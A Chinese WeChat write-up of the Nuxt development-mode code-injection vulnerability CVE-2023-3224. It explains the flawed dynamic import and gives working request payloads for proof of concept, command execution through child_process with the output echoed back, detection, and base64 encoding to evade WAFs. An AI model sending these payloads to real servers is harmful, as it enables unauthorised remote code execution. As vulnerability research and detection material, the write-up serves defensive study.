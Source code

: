 #  Nuxt开发模式下远程代码执行漏洞(CVE-2023-3224)

[ Medi0cr1ty ](javascript:void\(0\);)

**Medi0cr1ty** ![]()

微信号 Medi0cr1ty

功能介绍 宁静在遥远处波动

____

___发表于_

收录于合集

#漏洞 1 个

#nodejs 1 个

漏洞很简单，仅进行部分补充及记录

 **01**

漏洞概述

Nuxt在当服务端以开发模式启动时存在代码注入漏洞，远程未授权攻击者可利用此漏洞注入恶意代码并获取目标服务器权限。

前置条件：服务端以开发模式启动。

影响版本：Nuxt 3.4.0；3.4.1；3.4.2

 **02**

漏洞分析

环境搭建（三步）：

1、初始化

  * 

    
    
    npm init -y

2、依赖安装

  * 

    
    
    npm install nuxt@3.4.0

3、启动

  * 

    
    
    npx nuxi dev

根据漏洞补丁可知，漏洞触发点在 nuxt-root.vue 对 /__nuxt_component_test__/ 开头的 URL进行处理，交由 test-
component-wrapper.mjs ，在这里根据 query 中 path 参数值进行动态引入，导致可注入任意代码。

POC：  

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,console.log("test!");

![](https://gitee.com/fuli009/images/raw/master/public/20230714175621.png)

RCE：

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,(await%20import('child_process')).execSync('calc')

![](https://gitee.com/fuli009/images/raw/master/public/20230714175623.png)

RCE + 回显：

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,throw%20new%20Error((await%20import('child_process')).execSync('whoami'));

![](https://gitee.com/fuli009/images/raw/master/public/20230714175624.png)

 **03**

漏洞检测

  

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript,throw%20new%20Error(Buffer.from(%22medi0crity%22).toString(%27base64%27));

![](https://gitee.com/fuli009/images/raw/master/public/20230714175625.png)

  

另：均可进行编码绕 WAF 等，如：  

  * 

    
    
    /__nuxt_component_test__/?path=data%3atext/javascript%3bcharset%3dutf-8%3bbase64,KGF3YWl0IGltcG9ydCgnY2hpbGRfcHJvY2VzcycpKS5leGVjU3luYygnY2FsYycp

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

